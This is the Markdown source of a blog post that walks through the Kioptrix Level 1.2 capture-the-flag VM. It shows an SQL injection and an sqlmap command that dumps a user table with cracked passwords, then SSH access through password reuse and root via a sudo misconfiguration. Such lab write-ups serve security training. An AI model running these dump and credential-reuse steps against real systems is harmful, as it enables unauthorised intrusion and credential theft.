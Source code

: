 ```yaml
---
layout: blog_item
title:  "Kioptrix Level 1.2 Walkthrough"
date:   2023-12-20 14:00:10
author: Dhruv Ambaliya
description: 'Kioptrix Level 1.2 Walkthrough, CTF solution for Kioptrix Level 1.2.'
categories: [walkthroughs]
tags:
- Kioptrix
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code> Easy</p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

## Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 4.7p1 Debian 8ubuntu1.3 (protocol 2.0)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)</p></pc>
           </td>
        </tr>

      </tbody>

</table>
</div>


## Web Application Investigation

Enumeration of the website discovered it was likely vulnerable to an [SQL Injection](/penetration-testing/web-app/sql-injection/), entering <code>id='</code> rendered the following MySQL error:

![SQL Error](/img/blog/kioptrix/sql-error.png)


SQLMap was used to successfully dump the databases and crack the hashes:

{% highlight bash %}

[root:~]# sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" -p id -T dev_accounts --dump

Database: gallery
Table: dev_accounts
[2 entries]
+----+------------+---------------------------------------------+
| id | username   | password                                    |
+----+------------+---------------------------------------------+
| 1  | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 (Mast3r)   |
| 2  | loneferret | 5badcaf789d3d1d09794d8f021f40f0e (starwars) |
+----+------------+---------------------------------------------+

{% endhighlight %}

## Non privileged shell

Due to password reuse both accounts were able to ssh, dreg had a limited shell.

## Local Enumeration

Local enumeration of loneferrets home dir disclosed:

{% highlight bash %}
loneferret@Kioptrix3:~$ cat CompanyPolicy.README
Hello new employee,
It is company policy here to use our newly installed software for editing, creating and viewing files.
Please use the command 'sudo ht'.
Failure to do so will result in you immediate termination.

DG
CEO
{% endhighlight %}

## Privilege Escalation

<code>sudo ht</code> rendered a file explorer, the user <code>loneferret</code> was added to the sudoers group, making privilege escalation trivial.  

![sudo ht](/img/blog/kioptrix/sudo-ht.png)

{% highlight bash %}

loneferret@Kioptrix3:~$ sudo -s
root@Kioptrix3:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Kioptrix3:~#

{% endhighlight %}
